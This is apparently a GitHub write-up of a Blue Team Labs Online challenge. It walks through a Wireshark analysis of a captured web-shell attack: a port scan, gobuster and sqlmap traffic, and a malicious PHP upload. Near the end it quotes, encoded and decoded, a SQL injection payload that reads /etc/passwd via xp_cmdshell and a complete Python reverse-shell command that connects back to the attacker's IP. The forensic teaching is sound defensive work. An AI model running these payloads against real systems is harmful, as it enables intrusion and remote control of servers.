


# Network-Analysis-WebShell

<h3>Overview</h3>
In this project, I utilized WireShark to analyze every compromised packet. From the initial attacker contact to the victim, I tracked each communication to identify the tools and pathways used to access the server. This experience allowed me to understand packet dissection, observe attack patterns, and recognize their representation within a framework.

<h4>Cloud Tools and Evnironment</h4>
AZURE VM, WireShark

<h4>Source material</h4>
https://blueteamlabs.online

<h2>Project walk-through</h2>

"IMPORTANT": The file you are about to download contains actual malware. Please be advised to proceed with the project at your own risk and preferably run it on a VM.
 
First, we will go to Blue Team Lab Online and create an account. We will tackle a retired challenge named "Network Analysis Web Shell".
Once you have downloaded it, go ahead and extract the folder. The password is "btlo", as shown on the website. Let's open up the file with "Wireshark".

 

First, we need to learn about this file. Go to "Statistics" on the top menu and click "Capture File Properties". Here, you can find detailed information about this file, such as when the packet was created. It might be good to verify with a client if the timestamp is correct.

 

Now, let's go back to "Statistics" and click "Protocol Hierarchy Statistics". Here, you can see many protocols such as SMB, HTTPS, and SSH. It's good to check, as we can read plain text of protocols that were in use.

 

Next is "Conversations" under "Statistics", then click on "IPv4". We will sort them out by "Bytes" by clicking "Bytes". Now we see that 10.251.96.4 has been sending packets to 10.251.96.5.

 

Let's click on "TCP". Immediately, we can notice something. 10.251.96.5 has been sending packets from port 41675 to various ports on 10.251.96.5. We can see more and more as we scroll down. This might indicate that there was scanning activity.

 

Let's take a look again, and we will find different packets on destination ports 80 and 22. This indicates that ports 80 and 22 have responded to SYN-ACK. Now we know ports 80 and 22 on 10.251.96.5 are open. From the look of it we can assume that 10.251.96.5 might be an webserver.

 
If you keep scrolling down, you will find 10.251.96.5 answering back to 10.251.96.4 on port 4422 with unusual packet length. I wonder what this means?

 

Let's exit out and go back to the pcap file. If you look at the time, it's now showing much but just decimals. Let's change that so that we can read. Click on "View", then "Time and Display Format", then "UTC date and time of day".

 

Now we see HTTP protocol being used on packet #14. Let's right-click it then "Follow" then "TCP Stream". This will show the communication between client and server. But you cannot read much.

 

Let's get back to the pcap. This time we will click "HTTP stream" on packet #14. But now you can read a bit more compared to TCP stream.

 

Back to the original pcap. Scroll down a bit and look around; you will find many "GET" requests. But on packet #38, it's showing a "POST" request. Let's follow this with "HTTP Stream".

 

Here you can see someone log in with username=admin and password=Admin%401234. Special characters don't show, and they will be encoded. We can do a quick Google search %40 to decode it.

 

It seems like %40 = @. This means the password is Admin@1234.

 

Get back to the original pcap. Let's scroll down and look around; you will find DNS requests going to ubuntu.com. If you scroll down more, you will find some scary "red". It's a bit confusing, so let's change the view by clicking "Edit". Then click "Preference" then "Columns" then click "+". Double-click the "New Column", and we are going to type "Source Port". Then double click the "number", and it will give you a drop-down menu. We will click on "Source port". Add one more column with the name: Destination Port then do the same thing on the number. Then hit "OK".

 

Now move the new columns on the left wherever you please. Now you can see it clearly.

 

Scroll down a little, then you will find packet #134 that includes SYN and ACK on port 80. We already know port 22 is open. Which means we will find SYN and ACK on port 22 as well. Which we can see on packet #151. Notice here that it took less than 1 sec to process all these requests. Let's scroll down more and find the next interesting packet.

 

If you look at packet #2172, it has a GET request over port 80. Let's take a look at this by clicking "HTTP Stream", and you will find Apache Ubuntu server again. Take a look at packet #2190; you will find a POST request and follow it. Here you will find username=%27&password=%27 which can be decoded to username=' and password='. Also, notice that "User-Agent: Mozilla/5.0". Seems like it's some sort of XSS or SQL attack.

 

Get back to the pcap, then find the next GET request. Packet #2215 is showing "User-Agent: gobuster/3.0.1". Gobuster is a tool to move around the directory. Let's see if there were any more success in the stream by typing "HTTP/1.1 200" at the bottom on "find". But we cannot find any more so let's go back to the pcap.

 

Now we need to find more successful attempts. We can create a filter to find it faster instead of going through the every packets. Take a look at packet #2259 and click. If you look at the bottom left side, you can see "Hypertext Transfer Protocol", which is an application layer. We can click that then "HTTP/1.1 404 Not Found", right-click "Status Code: 404" and click "Prepare as Filter" then "Selected". Now at the top of the screen, you can see "http.response.code == 404". But we want 200, which is a successful attempt. We can change it to "http.response.code == 200".

 

Now we want it to filter specifically from the source address: 10.251.96.5. We can establish this in our filter by clicking "Internet Protocol Version 4" on the left bottom side of the screen. This represents Network layer 3. Right-click on Source Address then "Prepare as filter" then "and selected". Notice on the top "(http.response.code == 200) && (ip.src == 10.251.96.5)" and hit enter.

 

Now it's showing requests that the web server answered. Let's focus on "Length", packet #7725 is showing an abnormal amount of length compared to others. We need to follow on "HTTP Stream" and take a look then "find" "HTTP/1.1 200".

 

We can see the gobuster found the directory! The attacker now can see the version of the server which means they can exploit as well.

 

Let's get back to the filter, and there is another packet that has abnormal length packet #13894, let's follow this one as well. Seems like they found the directory again but notice that it not using gobuster anymore but using "User-Agent: Mozilla/5.0".

 

Let's see how long Gobuster took to get to the directory. Get back to the original pcap. We can see all the GET requests, but we can also see that it has got to "z", which means it's almost over. As we predeicted we do not see no more GET request after packet# 13661.

 

Take a look at packet #13661; it was requested at 16:34:06. Scroll down, and you will find a POST request on packet #13979 and follow it. Notice the user agent changed again, "User-Agent: sqlmap/1.4.". SQLmap is a tool that performs automated SQL attacks. Keep an eye on the time stamp as well, 16:36:17.

 

Take a look at packet #14060, that has a POST request and follow it. We see another SQL attack and you can see the encoded language: /?QLuT=8454%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1.
 

We can decoded to: /?QLuT=8454 AND 1=1 UNION ALL SELECT 1,NULL,'',table_name FROM information_schema.tables WHERE 2>1--/**/; EXEC xp_cmdshell('cat ../../../etc/passwd')#HTTP/1.1
 

From the code we can see Cross-site scripting as well SQL injection going on. Seems like they are trying to get to the password and we can notice that at the end of the line. ('cat ../../../etc/passwd')

 

As we scroll down more, we can find more POST requests. Let's make a filter to find the rest of the request. Type: http.request.method == POST and ip.addr == 10.251.96.4 on the top then hit enter.

 

Now it filtered out you can find the last POST request which is packet #16102, let's follow this packet. On the top you can see "POST /upload.php" seems like the attacker uploaded something. Here is the information that we can gather. filename=dbfunctions.php Referer: http://10.251.96.5/editprofile.php. From the attacker's view, the attacker clicked on "Edit profile" and there may have been an "upload" button? Then the attacker uploaded "dbfunctions" file. You can confirm this with "The file dbfunctions.php has been uploaded.GET /uploads/ HTTP/1.1".

 

Back to the original pcap file and follow packet #16201, which has a GET request with uploads/dbjuctions.php. 
 

You will find: /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1 
 

Which decoded to: /uploads/dbfunctions.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.251.96.4",4422));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'HTTP/1.1 
 
Looks like the attacker is using python to make a connection to 10.251.96.4 on port 4422

 

If you get back to the original pcap and right below packet #16201. You can find 3-way handshakes to 10.251.96.4 on packet #16203, 16204, 16205. Follow packet #16204 on "TCP stream" We can see that the attacker has a successful webshell connection to this web server. You can also see which path he took in the directory too travel around.

 

<h2>Conclusion</h4>
To sum up, this project used Wireshark to examine network traffic and understand how attackers operate. By analyzing different protocols and spotting suspicious activities like scanning and exploitation attempts, we learned about potential security weaknesses. It showed the importance of tools like Wireshark for monitoring networks and the need for strong cybersecurity measures to fend off malicious attacks.
